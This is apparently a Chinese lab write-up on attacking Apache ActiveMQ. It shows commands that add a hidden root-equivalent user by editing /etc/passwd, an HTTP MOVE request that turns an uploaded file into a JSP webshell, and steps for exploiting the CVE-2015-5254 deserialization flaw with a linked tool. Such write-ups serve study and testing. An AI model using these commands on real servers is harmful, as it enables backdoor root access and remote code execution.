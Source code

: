 ![](https://mmbiz.qpic.cn/mmbiz_png/2ibFSib4guKle9w4MEIBQ6bEib4e340iaamSz0ClhqdicoxQpj3iceU6uxU8CzRubnmSdHkicZicoa5IfoeXIAdaPnDuoQ/640?wx_fmt=png)

测试 PUT 老是失败，因此写了个 python 脚本，免得改请求包。

```
useradd -g root -s /bin/bash -u 10010 test //添加test用户并将其添加到root组
sed -i "s/test:x:10010/test:x:0/g" /etc/passwd  //将passwd中的test的uid修改为0
echo "test:sd123456" | chpasswd  //为test用户设置一个密码
```

获取绝对路径

靶场给的页面，实际环境中应该是不存在的。

![](https://mmbiz.qpic.cn/mmbiz_png/2ibFSib4guKle9w4MEIBQ6bEib4e340iaamSW5sicj7zgzQRibYT2BTqN4seeG0gaDBPViaMib5qF7XePdkNxPrfmIibhZA/640?wx_fmt=png)

实际环境中可以通过下面的方法爆路径：

![](https://mmbiz.qpic.cn/mmbiz_png/2ibFSib4guKle9w4MEIBQ6bEib4e340iaamSqKTpiaQI4tUaunWFg6n4Fr4XYgib0icbkZILerTsnRX6IS8NicHHAwXVEQ/640?wx_fmt=png)

移动文件到 admin 目录或者 api 目录下，登录访问 webshell

```
MOVE /fileserver/shell.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/shell.jsp
Host: 192.168.0.11:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0
```

我移动文件不知道为什么老是状态码 500 错误。

局限性

webshell 需要管理员账号密码，但理论上我们可以覆盖 jetty.xml，将 admin 和 api 的登录限制去掉，然后再写入 webshell。

### 反序列化漏洞

CVE-2015-5254

漏洞原理：Apache ActiveMQ 5.13.0 之前 5.x 版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的 Java Message Service(JMS)ObjectMessage 对象利用该漏洞执行任意代码。                    

 工具:https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar

漏洞利用流程

1. 构造（可以使用 ysoserial）可执行命令的序列化对象

2. 作为一个消息，发送给目标 61616 端口

3. 访问 web 管理页面，读取消息，触发漏洞

下图是构造可执行命令的序列化对象，并发送给目标 61616 端口:

![](https://mmbiz.qpic.cn/mmbiz_png/2ibFSib4guKle9w4MEIBQ6bEib4e340iaamSrjKbVdSgoWC3DIL2MTibT5GUMjPBcgA5UdcWGicsrtmSDT31WXGeQjVA/640?wx_fmt=png)
